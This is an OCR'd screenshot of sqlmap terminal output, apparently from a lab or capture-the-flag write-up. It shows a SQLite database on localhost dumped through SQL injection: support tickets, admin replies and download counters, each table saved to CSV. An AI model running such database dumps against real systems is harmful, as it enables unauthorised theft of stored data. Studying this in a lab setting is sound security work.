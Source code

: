 ```ansi
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.reports' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/reports.csv'
[18:22:32] [INFO] fetching columns for table 'answers'
[18:22:32] [INFO] fetching entries for table 'answers'
Database: <current>
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.answers' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/answers.csv'
[18:22:32] [INFO] fetching columns for table 'info'
[18:22:33] [INFO] fetching entries for table 'info'
Database: <current>
Table: info
[2 entries]
+----+-------------+-------+
| id | key         | value |
+----+-------------+-------+
| 1  | downloads   | 1000  |
| 2  | convertions | 2289  |
+----+-------------+-------+

[18:22:33] [INFO] table 'SQLite_masterdb.info' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/info.csv'
[18:22:33] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'
```
